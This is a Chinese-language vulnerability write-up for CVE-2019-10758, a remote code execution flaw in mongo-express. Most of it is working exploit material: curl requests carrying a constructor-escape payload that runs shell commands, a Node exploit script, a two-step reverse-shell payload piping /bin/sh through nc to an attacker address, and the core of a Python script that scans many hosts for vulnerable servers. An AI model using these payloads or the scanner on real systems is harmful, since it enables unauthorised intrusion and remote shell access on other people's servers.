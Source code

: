 （CVE-2019-10758）Mongo expres rce
==================================

一、漏洞简介
------------

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid
从外部接收输入，并调用了存在 RCE
漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

二、漏洞影响
------------

mongo-express \< 0.54.0

三、复现过程
------------

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

    docker run -p 27017:27017 -d mongo
    npm install mongo-express@0.53.0 
    cd node_modules/mongo-express/ && node app.js

#### cURL exploit

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10758)Mongoexpresrce/media/rId26.png)

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")'

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10758)Mongoexpresrce/media/rId27.png)

#### Script exploit

    node main.js

#### main.js

    exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

    var bson = require('mongo-express/lib/bson')
    bson.toBSON(exploit)

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f")

#### POST BODY 2：

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f")

### 批量监测脚本【只放核心代码】

    payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")'

    def http_request(url,path_out):
        try:
            print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
            vulurl = url + "/checkValid"
            r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)
            if r.status_code == 200 and 'Valid' in r.text:
                print("\033[1;40;32m'Good Found!' {}\033[0m".format(vulurl))
                #printGreen("[+]" + url)
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
        except Exception as err:
            print(err)

